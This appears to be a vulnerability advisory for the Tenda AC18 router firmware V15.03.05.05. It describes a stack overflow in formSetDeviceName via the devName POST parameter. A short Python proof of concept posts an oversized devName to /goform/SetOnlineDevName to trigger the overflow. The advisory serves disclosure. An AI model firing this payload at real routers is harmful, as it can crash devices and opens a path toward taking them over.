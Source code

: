 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v7` variable receives the `devName` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `devName` can trigger this security vulnerability.

![image-20240306170433342](formSetDeviceName_devName.assets/image-20240306170433342.png)

![image-20240306170444112](formSetDeviceName_devName.assets/image-20240306170444112.png)

![image-20240306170453887](formSetDeviceName_devName.assets/image-20240306170453887.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306171156310](formSetDeviceName_devName.assets/image-20240306171156310.png)
